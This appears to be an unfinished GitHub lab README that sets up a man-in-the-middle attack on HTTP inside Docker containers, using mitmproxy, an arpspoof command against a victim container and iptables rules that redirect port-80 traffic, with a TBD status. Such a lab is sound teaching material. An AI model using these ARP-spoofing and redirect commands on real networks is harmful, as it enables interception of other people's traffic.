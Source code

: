 
# ManInTheMiddle attack on HTTP Lab in Docker.

- Builds on the previous Lab
- Leverage https://mitmproxy.org/
-

## Buid
  
```
sudo docker build --tag=mitm --build-arg http_proxy=$http_proxy --build-arg https_proxy=https_proxy  mitm
```

## Run

Launch 3 terminals:
```
gnome-terminal --title='Box1' -- sudo docker run -it --rm --name box1 busybox
gnome-terminal --title='MITM' -- sudo docker run -it --rm --name attacker mitm
gnome-terminal --title='TcpDumper'  -- sudo docker run -it --rm  --net=container:attacker --name tcpdumper tcpdumper
```

On the Attacker box, spoof the local gateway: `/usr/sbin/arpspoof -i eth0 -t 172.17.0.2 172.17.0.1 > /dev/null 2>&1 &`


Could get rid of the ICMP redirects by setting the host's send_redirects. They are somehow transmitted to the veth when it is created by Docker.
```
sudo sysctl net.ipv4.conf.all.send_redirects=0
sudo sysctl net.ipv4.conf.default.send_redirects=0
```
Can check in the container with 
```
for i in /proc/sys/net/ipv4/conf/* ; do           
  echo -n "$i " ; cat $i/send_redirects ;
done
```


Trying to use IPTables on veth no packets are impacted, but it works on the bridge:
`sudo iptables -t nat -A PREROUTING -i docker0 -p tcp --dport 80 -j REDIRECT --to-port 8080` 
problem now is that the spoofing is ignored. Packets go to the real server.

TBD

